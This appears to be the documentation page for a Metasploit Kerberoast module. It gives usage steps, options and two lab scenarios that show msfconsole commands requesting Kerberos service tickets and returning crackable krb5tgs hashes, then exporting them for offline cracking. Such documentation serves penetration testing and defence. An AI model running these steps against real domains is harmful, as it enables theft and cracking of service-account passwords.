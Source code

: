 ## Kerberoast

This module will try to find Service Principal Names (SPN) that are associated with normal user accounts on the specified domain, and then submit requests to retrieve Ticket Granting Service (TGS) tickets for those accounts, which may be partially encrypted with the SPN user's NTLM hash. After retrieving the TGS tickets, offline brute forcing attacks can be performed to retrieve the passwords for the SPN accounts.

## Module usage

- Start `msfconsole`
- Do: `use auxiliary/gather/kerberoast`
- Do: `run rhost=<IP> domain=<FQDN> password=<pass> username=<username> target_user=<optional_user>`
- If a target user has been requested, the module will log in to LDAP, find any SPNs associated with that user, and then request that service ticket.
- If no target user has been requested, the module will request service tickets for all available users.
- A crackable value will be displayed for all valid accounts.


## Options

### DOMAIN / LDAPDOMAIN
The Fully Qualified Domain Name (FQDN). Ex: mydomain.local.

### USERNAME / LDAPUSERNAME
The username to authenticate to the DC with

### PASSWORD / LDAPPASSWORD
The password to authenticate to the DC with

### Rhostname

The hostname of the domain controller. Must be accurate otherwise the module will silently fail, even if users exist without pre-auth required.

## Scenarios

### Target user

To retrieve a TGS for a particular user, set `TARGET_USER`.

```msf
msf6 auxiliary(gather/kerberoast) > run rhost=20.248.208.9 ldapdomain=msf.local ldappassword=PasswOrd123 ldapusername=AzureAdmin target_user=low.admin
[*] Running module against 20.248.208.9
[+] 20.248.208.9:88 - Received a valid TGT-Response
[*] 20.248.208.9:389 - TGT MIT Credential Cache ticket saved to /home/user/.msf4/loot/20250513155454_default_20.248.208.9_mit.kerberos.cca_656516.bin
[+] 20.248.208.9:88 - Received a valid TGS-Response
[*] 20.248.208.9:389 - TGS MIT Credential Cache ticket saved to /home/user/.msf4/loot/20250513155454_default_20.248.208.9_mit.kerberos.cca_233943.bin
[+] Success:
$krb5tgs$17$low.admin$MSF.LOCAL$*http/abc.msf.local*$faf4a87156a49afd69de3c8b$582f8daec4a5f88fba...
[*] Auxiliary module execution completed
```

### All users

```
msf6 auxiliary(gather/kerberoast) > run rhost=20.248.208.9 ldapdomain=msf.local ldappassword=PasswOrd123 ldapusername=AzureAdmin
[*] Running module against 20.248.208.9

[+] 20.248.208.9:88 - Received a valid TGT-Response
[*] 20.248.208.9:389 - TGT MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20250513155630_default_20.248.208.9_mit.kerberos.cca_281438.bin
[+] 20.248.208.9:88 - Received a valid TGS-Response
[*] 20.248.208.9:389 - TGS MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20250513155630_default_20.248.208.9_mit.kerberos.cca_360340.bin
[+] 20.248.208.9:88 - Received a valid TGT-Response
[*] 20.248.208.9:389 - TGT MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20250513155630_default_20.248.208.9_mit.kerberos.cca_642663.bin
[+] 20.248.208.9:88 - Received a valid TGS-Response
[*] 20.248.208.9:389 - TGS MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20250513155630_default_20.248.208.9_mit.kerberos.cca_556183.bin

[+] Query returned 2 results.
[+] Success:
$krb5tgs$23$*kerber.roastable$MSF.LOCAL$http/abc2.msf.local*$d335dc07b2c018de2a19e2ecc102bd1d$abc848...
$krb5tgs$17$low.admin$MSF.LOCAL$*http/abc.msf.local*$a1c7c1c1e31e36cdb0721928$b69b48...
[!] NOTE: Multiple encryption types returned - will require separate cracking runs for each type.
[*] To obtain the crackable values for a praticular type, run `creds`:
[*] creds -t krb5tgs-rc4 -O 20.248.208.9 -o <outfile.(jtr|hcat)>
[*] creds -t krb5tgs-aes128 -O 20.248.208.9 -o <outfile.(jtr|hcat)>
[*] Auxiliary module execution completed
```